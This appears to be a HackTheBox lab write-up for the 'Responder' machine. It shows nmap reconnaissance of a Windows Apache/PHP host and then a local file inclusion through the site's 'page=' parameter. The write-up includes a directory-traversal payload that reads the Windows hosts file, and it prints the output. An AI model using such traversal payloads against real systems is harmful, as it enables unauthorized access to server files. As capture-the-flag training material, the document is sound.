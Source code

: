 ## Responder HackTheBox
#### About Box

---
#### Step One: Recon
First thing is : `nmap`
```bash
nmap -A -sV --privileged -T4 10.129.121.226  -p- -O -sC -v
```
**`Result`**
|PORT|STATE|SERVICE|VERSION|
|----|----|----|----|
|80/tcp|open|http|Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)|
|5985/tcp|open|http|Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)|

Result Description: **`Port 80`**
```terminal
80/tcp   open  http    Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Unika
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
```

Result Description: **`Port 5985`**
```terminal
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
```

Then we visit the site and with `wappalyzer` we can see bunch of stuffs about our site. The key features are:
- Running on PHP `8.1.1`
- Running on a Windows OS
- Has Apache server

Burp automatically discoverd a parameter called **`page=`**. let's take a look at it.

#### Step Two: Exploiting
We discoverd that our found parameter **`page`** loads file from the server. this might help us to get `LFI`. But this is a windows server so we have to use payload that follows windows filesystem.

in this case I've used: `../../../../../../../../windows/system32/drivers/etc/hosts`

and yes we get a `LFI`

**`Result`**
```terminal
# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
-------<snip>------
#
# For example:
#
#      102.54.94.97     rhino.acme.com          # source server
#       38.25.63.10     x.acme.com              # x client host

# localhost name resolution is handled within DNS itself.
#	127.0.0.1       localhost
#	::1             localhost
```
